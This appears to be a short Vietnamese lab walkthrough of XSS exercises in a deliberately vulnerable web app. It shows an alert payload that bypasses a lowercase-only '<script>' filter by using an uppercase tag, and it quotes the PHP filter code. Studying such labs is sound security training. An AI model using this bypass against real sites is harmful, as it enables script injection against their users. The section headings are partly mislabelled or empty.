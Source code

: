 # XSS reflected
Chạy thử alert
```
<script>alert("Pwned")</script>
```
![image](https://github.com/user-attachments/assets/0a96cc6c-5946-4990-8191-0498ad1ce2d3)

*Ko chạy được script*

View source:
![image](https://github.com/user-attachments/assets/336757f8-8fd8-4c24-a22f-07ab56072432)

*Đã thay thế <script> = ''*

## Sol
Cái này nó chỉ check lowercase thôi chứ chưa check uppercase nên script sẽ là 
```
<SCRIPT>alert("Pwned")</script>
```
Kết quả:
![image](https://github.com/user-attachments/assets/5ef81811-20fd-4c42-a1ba-78e1f64e428c)

# XSS DOM

# XSS stored
View source:
![image](https://github.com/user-attachments/assets/f4507537-b30c-4b23-bc6a-591cac4dd1e5)

```
<?php

// Is there any input?
if ( array_key_exists( "default", $_GET ) && !is_null ($_GET[ 'default' ]) ) {
    $default = $_GET['default'];
    
    # Do not allow script tags
    if (stripos ($default, "<script") !== false) {
        header ("location: ?default=English");
        exit;
    }
}

?>
```

*Không cho excute script ở default tag*


